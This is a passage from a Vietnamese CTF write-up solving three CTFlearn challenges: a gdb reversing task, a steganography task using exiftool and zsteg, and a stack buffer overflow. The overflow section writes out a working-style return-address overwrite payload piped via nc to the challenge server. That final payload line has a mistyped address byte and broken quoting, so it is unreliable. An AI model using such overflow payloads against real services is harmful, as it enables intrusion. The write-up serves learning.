         Starting program: /home/kali/Downloads/_Reykjavik.zip.extracted/Reykjavik 'CTFlearn{hehe}'
        [Thread debugging using libthread_db enabled]
        Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
        Welcome to the CTFlearn Reversing Challenge Reykjavik v2: CTFlearn{hehe}
        Compile Options: ${CMAKE_CXX_FLAGS} -O0 -fno-stack-protector -mno-sse


        Breakpoint 1, 0x000055555555516d in main ()
        ```
    - Đó và ta sẽ đọc giá trị thanh ghi `$rsp` bằng `x/s $rsp` và được flag.
    - Xong.

## Smiling ASCII
- Với 1 file ảnh thì cần kiểm tra xem có gì đặc biệt ở file này không. Có thể dùng `exiftool smiling.png` thì có output: 
    ```
    ExifTool Version Number         : 12.76
    File Name                       : smiling.png
    Directory                       : .
    File Size                       : 59 kB
    File Modification Date/Time     : 2024:11:14 09:01:49+07:00
    File Access Date/Time           : 2024:11:14 09:02:37+07:00
    File Inode Change Date/Time     : 2024:11:14 09:01:49+07:00
    File Permissions                : -rw-rw-r--
    File Type                       : PNG
    File Type Extension             : png
    MIME Type                       : image/png
    Image Width                     : 383
    Image Height                    : 300
    Bit Depth                       : 8
    Color Type                      : RGB with Alpha
    Compression                     : Deflate/Inflate
    Filter                          : Adaptive
    Interlace                       : Noninterlaced
    Warning                         : [minor] Trailer data after PNG IEND chunk
    Image Size                      : 383x300
    Megapixels                      : 0.115
    ```
- Để ý thì có 1 phần warning đó tức là file đã bị chỉnh sửa gì đó.
- Gọi strings thì trả ra 1 đoạn mã rồi base 64 ra thì được dòng `Did you know that pixels are, like the ascii table, numbered from 0 to 255?`.
- Tới đây thì có thể dùng 1 thư viện của linux là zsteg để phân tích cụ thể: `zsteg -a smiling.png` là ra flag.

## RIP my bof
- Trước hết là cứ phải trích xuất tất cả các file có thể đã thì mình sẽ có được 1 file là `server` và khi chạy file này sẽ tương tự như cái lệnh `nc thekidofarcrania.com 4902`.
- Đọc code thì mục tiêu bài sẽ là làm sao để gọi tới hàm win thông qua `nc thekidofarcrania.com 4902`.
- Trước hết thì cần biết địa chỉ của hàm win là `0x08048586` thông qua câu lệnh `readelf -s server | grep win` hoặc là có thể chạy `r2 -AA server` rồi `pdf @sym.win`.
- Tiếp đó là nhìn output của khi chạy `./server` phần return address ... đó thì nhập thử đoạn `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB` thì ok phần BBBB đã nằm đúng chỗ và ở đây đoạn mã sẽ bị crash với thông báo `zsh: segmentation fault  ./server` tức là chương trình truy cập và 1 địa chỉ không hợp lệ.
- Với cái lỗi trên thì ta hiểu được là cái này sẽ chạy đoạn mã ở địa chỉ mà ta nhập vào và ở đây sẽ cần ghi địa chỉ của hàm win vào.
- Đoạn mã tham khảo : 
    ```
    echo -e "$(python3 -c 'print ("A"*60'))\x86\x86\x04\x08" | nc thekidofarcrania.com 4902"
    ```
